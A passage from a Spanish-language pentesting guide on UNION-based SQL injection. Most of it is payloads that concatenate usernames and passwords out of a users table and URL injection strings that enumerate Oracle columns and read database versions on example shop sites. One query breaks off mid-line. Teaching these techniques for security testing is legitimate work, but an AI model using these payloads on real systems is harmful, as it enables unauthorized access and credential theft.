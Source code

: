 * admin:admin123,usuario:usuario123,invitado:contraseña-invitado123

Si de esta manera no puedes concatenar los datos, existen otras formas dependiendo de que tipo de BD se este utilizando (MySQL, Oracle, PostgreSQL, Microsoft), por ejemplo en BBDD de Oracle y PostgreSQL, se hace de la siguiente forma:

```sql
SELECT * FROM users where username = 'usuario123' UNION SELECT NULL,username||':'||password FROM users-- -'
```

Otra forma es con `concat()`:

```sql
SELECT * FROM users where username = 'usuario123' UNION SELECT NULL,concat(username,':',password) FROM users-- -'
```
{% endhint %}

{% hint style="warning" %}
En algunos casos, los dos puntos deben de ser representados en hexadecimal:

```sql
SELECT * FROM users where username = 'usuario123' UNION SELECT NULL,group_concat(username,0x3a
```
{% endhint %}

#### Oracle

Para enumerar las columnas de BBDD Oracle, lo hacemos de la siguiente forma:

```
https://myshop.com/filter?category=Pets' union select NULL, column_name from all_tab_columns where table_name = 'Table_Name'-- -
```

### Enumeración del tipo y versión de la BD

Podemos volcar el tipo y versión de la BD, una vez sepamos el numero de columnas que tiene la tabla que se esta empleando ya que necesitamos un campo vulnerable para ello, pero dependiendo de ello debemos de hacerlo de una forma u otra.

#### Oracle

{% code fullWidth="false" %}
```url
https://mitienda.com/products?categoria=Bañadores' union select NULL,banner from v$version-- -
```
{% endcode %}

{% code fullWidth="false" %}
```
https://mitienda.com/products?categoria=Bañadores' union select NULL,version from v$instance-- -
```
{% endcode %}

#### Microsoft y MySQL

{% code fullWidth="false" %}
```
https://mitienda.com/products?categoria=Bañadores' union select NULL,@version-- -
```
{% endcode %}
